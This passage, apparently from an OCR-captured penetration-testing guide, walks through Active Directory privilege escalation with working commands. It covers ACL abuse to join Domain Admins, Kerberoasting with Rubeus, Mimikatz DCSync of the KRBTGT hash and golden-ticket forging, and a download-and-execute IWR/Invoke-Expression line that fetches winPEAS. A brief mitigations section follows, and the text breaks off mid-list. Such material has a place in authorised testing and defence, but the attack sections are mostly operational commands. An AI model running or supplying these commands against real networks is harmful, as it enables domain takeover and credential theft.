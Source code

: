 ```
Get-ObjectAcl -Identity "CN=Domain Admins,CN=Users,DC=domain,DC=com" | Where {$_.IdentityReference -match "user123"}

```

and see user123 has full rights. We then run `net group "Domain Admins" user123 /add` or reset an Admin password via PowerShell. Now user123 logs in as a DA. This is exactly the Shebin53 scenario. Detection: normally audited; defenders should have alerts on changes to Domain Admin group ACLs.

- **Kerberoast Crack**: We use Rubeus to kerberoast as a low-priv user:

```
Rubeus.exe kerberoast /rc4opsec /format:hashcat /outfile:krb.txt

```

We then crack krb.txt with Hashcat. This yields a service account's NTLM password. Upon RDP login with that account, we achieve lateral privilege on the file server where it was SPN'd.

- **DCSync to DA**: Having already gotten a shell as a normal domain user on a DC (via psexec or stolen creds), we run Mimikatz with Domain Admin tokens:

```
lsadump::dcsync /domain:corp.local /user:krbtgt

```

Mimikatz returns the KRBTGT hash. Then:

```
kerberos::golden /domain:corp.local /sid:S-1-5-21-XXXXXXXXXX /krbtgt:<hash> /user:Administrator /groups:512
kerberos::ptt /ticket:Administrator.kirbi

```

Now we have a persistent DA ticket (golden ticket). This was demonstrated in posts, although they stop after DCSync. Once we have DA, cleanup and persistence can follow.

## Mitigations and Detection

Defenders should be aware of all the above vectors. In general: patch systems (especially for known exploits like PrintNightmare), enforce least privilege (avoid giving SeImpersonate/SeDebug to many accounts), use WDAC/AppLocker to prevent unauthorized DLLs or binaries, monitor registry writes for UAC bypass keys, and track abnormal AD ACL changes. Use tools like BloodHound defensively to audit AD permissions, and enable Kerberos pre-auth (mitigate AS-REP) and strong passwords (mitigate Kerberoast).

## Toolbox: Commands, Tools, and Scripts

Below are key commands and tools for enumeration and exploitation. Tools can be downloaded directly (e.g. via wget or certutil in CMD/Powershell):

- **WinPEAS/PowerUp/SharpUp**: Auto-enumeration scripts for Windows LPE.
• **WinPEAS (PowerShell)**: enumerate everything (services, users, patchlevel). Run via Invoke-Expression (IWR -useb [raw.githubusercontent.com/carlospolop/PEASS-ng/.../winPEAS.ps1](http://raw.githubusercontent.com/carlospolop/PEASS-ng/.../winPEAS.ps1)).
• **PowerUp (PowerSploit)**: run `Import-Module PowerUp; Invoke-AllChecks` to find common misconfigs.
• **SharpUp (GhostPack/C#)**: SharpUp.exe (part of Seatbelt suite) will perform similar checks. Example:
